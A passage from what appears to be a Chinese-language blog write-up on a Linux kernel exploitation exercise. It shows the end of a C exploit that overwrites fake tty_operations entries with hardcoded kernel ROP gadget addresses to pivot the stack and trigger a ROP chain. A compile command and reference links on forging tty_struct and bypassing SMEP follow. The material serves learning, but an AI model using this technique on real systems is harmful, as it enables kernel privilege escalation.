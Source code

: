 ```c
	puts("[+] pivok stack to rop.....");
	fake_tty_operations[7]=0xffffffff8181bfc5; //mov rsp,rax;dec ebx;ret;
	fake_tty_operations[0]=0xffffffff810635f5; //pop rax;ret;
	fake_tty_operations[1]=(size_t)rop;
	fake_tty_operations[3]=0xffffffff8181bfc5;
	puts("[+] triger...");
	char buf[8]={0x61};
	write(fd_tty,buf,8);
	return 0;
}
```

编译：

gcc -Os ./tmp/tty_struct.c -static -lutil -o exp

运行结果：

![](https://raw.githubusercontent.com/TroyeCriss/blog_img/master/img/image-20200506225023192.png)

# 参考

[一道简单内核题入门内核利用](https://www.anquanke.com/post/id/86490)

[linux kernel pwn学习之伪造tty_struct执行任意函数](https://blog.csdn.net/seaaseesa/article/details/104577501)

[Linux内核漏洞利用 Bypass SMEP](https://www.sunxiaokong.xyz/2020-02-14/lzx-bypass-babysmep/)


